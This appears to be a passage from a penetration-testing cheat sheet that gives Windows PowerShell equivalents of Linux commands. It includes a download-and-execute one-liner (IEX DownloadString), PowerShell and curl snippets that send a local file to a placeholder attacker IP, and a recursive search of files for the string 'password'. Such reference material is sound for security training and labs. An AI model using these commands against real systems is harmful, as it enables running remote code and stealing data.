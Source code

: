 &#x20;<mark style="color:blue;">**↳**</mark> This feature needs to be already enabled, or enabled by you as an administrator

{% code title="wget $URL -O $FILE" %}
```powershell
iwr http://10.10.10.10/file.txt -o file.txt
```
{% endcode %}

{% code title="curl $IP | sh" %}
```powershell
IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.10.10/script.ps1');
```
{% endcode %}

<pre class="language-powershell" data-title="nc $IP $PORT < $FILE"><code class="lang-powershell">$client = New-Object System.Net.Sockets.TcpClient
<strong>$client.Connect("10.10.10.10", 8000)
</strong>$writer = New-Object System.IO.StreamWriter($client.GetStream())
<strong>$bytes = (Get-Content -Encoding byte "C:\Windows\win.ini")
</strong>$writer.BaseStream.Write($bytes, 0, $bytes.Length)
$writer.Flush()
</code></pre>

&#x20;<mark style="color:blue;">**↳**</mark> For larger file transfers, you can also do this over HTTP with [`python3 -m uploadserver`](https://pypi.org/project/uploadserver/):

```powershell
curl.exe -X POST http://10.10.10.10:8000/upload -F 'files=@C:\Windows\win.ini'
```

### Files

<pre class="language-powershell" data-title="find"><code class="lang-powershell"><strong>Get-ChildItem -File -Recurse -ErrorAction SilentlyContinue
</strong># Or to get a nice tree view:
<strong>tree /F
</strong></code></pre>

<pre class="language-powershell" data-title="grep -ri $PATTERN"><code class="lang-powershell"><strong>dir -Recurse | Select-String -Pattern "password"
</strong></code></pre>

<pre class="language-powershell" data-title="Check permissions"><code class="lang-powershell"><strong>icacls C:\Path\To\DirOrFile
</strong># Output reference: https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/icacls#remarks
</code></pre>

{% code title="List disks (C:\, D:\, etc.)" %}
```powershell
wmic logicaldisk get deviceid,volumename,description
```
{% endcode %}

### Miscellaneous
